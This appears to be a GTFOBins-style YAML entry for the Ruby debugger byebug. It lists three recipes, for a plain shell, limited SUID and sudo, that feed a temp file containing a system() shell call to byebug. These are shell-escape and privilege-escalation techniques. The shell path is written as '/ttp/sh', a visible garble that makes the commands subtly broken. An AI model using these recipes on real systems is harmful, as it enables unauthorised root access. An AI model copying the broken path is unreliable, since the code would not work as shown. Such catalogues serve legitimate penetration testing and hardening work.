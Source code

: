 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'system("/ttp/sh")' > $TF
        byebug $TF
        continue
  limited-suid:
    - code: |
        TF=$(mktemp)
        echo 'system("/ttp/sh")' > $TF
        ./byebug $TF
        continue
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'system("/ttp/sh")' > $TF
        sudo byebug $TF
        continue
---
```

